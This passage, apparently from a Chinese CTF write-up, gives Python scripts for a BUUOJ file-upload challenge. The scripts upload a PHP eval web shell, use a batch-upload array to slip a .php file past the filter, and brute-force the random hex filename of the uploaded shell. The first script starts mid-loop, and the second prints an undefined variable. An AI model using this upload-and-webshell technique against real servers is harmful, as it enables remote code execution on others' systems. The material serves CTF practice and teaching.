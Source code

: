 ```python
            for y in dir:
                for z in dir:
                    url = 'http://7bf59f19-55d2-4237-ba35-ccb808a150f1.node4.buuoj.cn:81/Public/Uploads/2021-03-03/61eeaef{}{}{}{}{}.php'.format(
                        i, j, x, y, z)
                    r = requests.get(url)
                    # print(url)
                    time.sleep(2)
                    if r.status_code == 200:
                        print(url)
                        break

```

或者这样：

```python
import requests
import os
session = requests.session()
url = 'http://bfe57cc0-6949-4a5d-89b9-ec52e0ac2696.node4.buuoj.cn:81/index.php/home/index/upload'
file1 = {'file': ('1.txt', '<?php eval($_GET["cmd"]);')}
# upload()不传参时即是批量上传所以用[]
file2 = {'file[]': ('1.php', '<?php eval($_GET["cmd"]);')}
# os.open
r = session.post(url, files=file1)
print(r.text)
# start = r.text[-30]
r = session.post(url, files=file2)
print(r.text)

r = session.post(url, files=file1)
print(r.text)
print(r.text[-31:-23])
all = r.text[-31:-23]
s = "1234567890abcdef"
for a in s:
    for b in s:
        for c in s:
            for d in s:
                for e in s:
                    url_new = 'http://bfe57cc0-6949-4a5d-89b9-ec52e0ac2696.node4.buuoj.cn:81//Public/Uploads/2022-02-25/' + \
                        all+a+b+c+d+e+".php"
                    # print(url_new)
                    r = requests.get(url_new)
                    if r.status_code == 200:
                        print(path)
                        # print(r.text)
                        break

```

### [HarekazeCTF2019]Avatar Uploader 2

